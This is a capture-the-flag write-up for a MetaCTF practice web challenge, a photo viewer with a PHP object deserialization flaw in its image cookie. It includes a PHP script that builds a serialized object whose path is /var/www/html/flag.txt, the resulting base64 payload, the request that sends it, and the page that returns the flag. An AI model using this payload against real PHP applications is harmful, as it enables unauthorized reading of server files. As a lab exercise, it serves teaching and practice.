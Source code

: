 # Metactf practice challenges web-wirteup

## Challenges
# URL
http://1k3h22c9.chals.mctf.io/view.php
# Concept
This challenge reqiured us to upload images into a santa website but from the view.php source code when found unserailized image input.

# Method of solve
Understanding the Vulnerability 
View.php does this $imageObj = unserialize(base64_decode($_COOKIE['image_data']));
Then it calls:  
file_get_contents($imageObj->path)
# payload script to generate the base64 encoded string for image cookie
<?php
class Image {
    public $path = '/var/www/html/flag.txt'; // Common CTF flag location
    // Try also: 'flag.txt', 'flag.php', '/app/flag', etc.
}

$payload = serialize(new Image());
echo base64_encode($payload) . "\n";
?>
 Then run:
 php payload.php 
Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjIyOiIvdmFyL3d3dy9odG1sL2ZsYWcudHh0Ijt9
Then add cookie in the website header:
http://1k3h22c9.chals.mctf.io/view.php?set_image=Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjIyOiIvdmFyL3d3dy9odG1sL2ZsYWcudHh0Ijt9
After the flag is viewed from the view source
<body>
    <div class="view-container">
        <h1 class="mb-4">Photo Viewer</h1>
        <p class="mb-3">Enjoy this beautiful photo uploaded by our community members.</p>
        <div class="card">
            <div class='alert alert-warning'>The image cannot be displayed or contains errors.</div><pre class='hidden-content'>MetaCTF{ph3ar_d3s3rial1z3d_0bj3cts}
</pre>        </div>
        <a href="index.php" class="btn btn-secondary mt-3">Back to Gallery</a>
    </div>
</body>
</html>

